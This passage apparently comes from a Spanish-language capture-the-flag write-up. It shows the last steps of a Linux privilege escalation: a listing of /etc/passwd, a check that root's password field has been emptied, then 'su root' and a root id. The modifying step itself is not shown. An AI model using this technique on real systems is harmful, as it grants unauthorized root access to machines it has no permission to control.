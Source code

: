 ```css
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
juan:x:1001:1001:,,,:/home/juan:/bin/bash
carlos:x:1002:1002:,,,:/home/carlos:/bin/bash
rosa:x:1003:1003:,,,:/home/rosa:/bin/bash
```
valido el cambio en `/etc/passwd`

```ruby
cat /etc/passwd |grep root

root::0:0:root:/root:/bin/bash
```
el cambio se realizo correctamente asi que procedo a la escalada

```ruby
su root
```

### root

```css
id
uid=0(root) gid=0(root) groups=0(root)
```
